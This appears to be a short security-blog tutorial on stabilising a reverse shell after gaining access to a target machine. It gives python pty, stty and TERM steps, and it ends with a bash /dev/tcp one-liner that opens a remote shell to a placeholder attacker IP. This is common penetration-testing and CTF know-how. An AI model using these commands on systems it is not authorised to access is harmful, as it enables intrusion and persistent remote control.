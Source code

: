 ```yaml
---
layout: single
title:  "Upgrading your reverse shell"
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
toc_sticky: true
header:
    image: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Biel Morro**](https://unsplash.com/@bielmorro?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash) on [**Unsplash**](https://unsplash.com/photos/brown-conch-shell-on-right-human-palm-_l8ZdgJ9m7w?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash)"
---
```


> After we have gotten our reverse shell, it will have limitations such as no auto-completions and messy file listings. Here is how we can make our shell better inside our target's system:

Upgrading and stabilizing your shell enables you to type in your commands better. There are several ways to upgrade your shell once you are in a target machine.

## First way

Assuming you are running bash, in your reverse shell:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Press on your keyboard: `Ctrl + Z`
Press on your keyboard: `Enter`

On your local host:

```
stty raw -echo
fg
```
Press on your keyboard: `Enter` (twice)

In the reverse shell:
```
export TERM=xterm
```

## Second way
Check the version of python the target system is running in using:
`which python` or `which python3`

Next,

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  //Upgrade to tty
Ctrl + Z                                        //Background the process
stty raw -echo
fg + Enter
```

Subsequently, turn your unstable shell into a stable one via:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
\
\
Thank you for reading!